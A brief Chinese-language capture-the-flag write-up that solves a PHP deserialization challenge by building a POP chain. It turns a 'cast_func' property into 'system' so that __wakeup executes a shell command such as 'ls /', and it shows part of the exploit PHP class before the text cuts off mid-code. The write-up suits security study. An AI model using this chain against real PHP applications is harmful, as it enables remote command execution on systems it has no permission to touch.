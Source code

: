 ![](assets/3-1.png)
提供的 source code
![](assets/3-2.png)
這題很明顯是在考 php 的 POP chain\
只要把 ```$this->magic = new Magic();``` 改為 ```$this->magic = new Caster();```
以及把 ```public $cast_func = 'intval';``` 改為 ```public $cast_func = 'system';```
被反序列化的時候自動呼叫 ```__wakeup``` 時就會變為執行 Caster 的 cast_func\
於是解法跟上一題幾乎一樣，然後把 ```$this->spell``` 的值設為要執行的指令 ```ls /``` 印出根目錄的檔案
```php
<?php
    class Caster
    {
        public $cast_func = 'system';
        function cast($val)
        {
            return ($this->cast_func)($val);
        }
    }
    class Cat
    {
```
